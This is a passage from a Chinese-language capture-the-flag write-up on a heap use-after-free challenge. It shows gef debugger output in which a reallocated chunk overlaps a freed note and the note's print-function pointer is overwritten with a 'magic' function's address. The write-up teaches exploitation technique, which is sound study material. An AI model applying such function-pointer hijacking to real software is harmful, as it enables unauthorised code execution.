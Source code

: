 ```asm

```

**申请note2的content的内存地址为0x804b008，就是note0对应的地址，即此时我们向note2的content写内容，就会将note0的put字段覆盖。**

```asm
gef➤  n 1
[+] Heap-Analysis - malloc(8)=0x804b008
[+] Heap-Analysis - malloc(8)=0x804b008
0x08048761 in add_note ()
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ registers ]────
$eax   : 0x0804b008  →  0x00000000
$ebx   : 0x0804b040  →  0x0804865b  →  <print_note_content+0> push ebp
$ecx   : 0xf7fac780  →  0x00000000
$edx   : 0x0804b008  →  0x00000000
$esp   : 0xffffcf10  →  0x00000008
$ebp   : 0xffffcf48  →  0xffffcf68  →  0x00000000
$esi   : 0xf7fac000  →  0x001b1db0
$edi   : 0xf7fac000  →  0x001b1db0
$eip   : 0x08048761  →  <add_note+235> add esp, 0x10
$cs    : 0x00000023
$ss    : 0x0000002b
$ds    : 0x0000002b
$es    : 0x0000002b
$fs    : 0x00000000
$gs    : 0x00000063
$eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
    0x8048752 <add_note+220>   mov    al, ds:0x458b0804
    0x8048757 <add_note+225>   call   0x581173df
    0x804875c <add_note+230>   call   0x80484e0 <malloc@plt>
 →  0x8048761 <add_note+235>   add    esp, 0x10
```

我们来具体检验一下，看一下覆盖前的情况，可以看到该内存块的`printnote`指针已经被置为NULL了，这是由fastbin的free机制决定的。

```asm
gef➤  x/2xw 0x804b008
0x804b008:	0x00000000	0x0804b018
```

覆盖后，具体的值如下

```asm
gef➤  x/2xw 0x804b008
0x804b008:	0x08048986	0x0804b00a
gef➤  x/i 0x08048986
   0x8048986 <magic>:	push   ebp
```

可以看出，确实已经被覆盖为我们所想要的magic函数了。
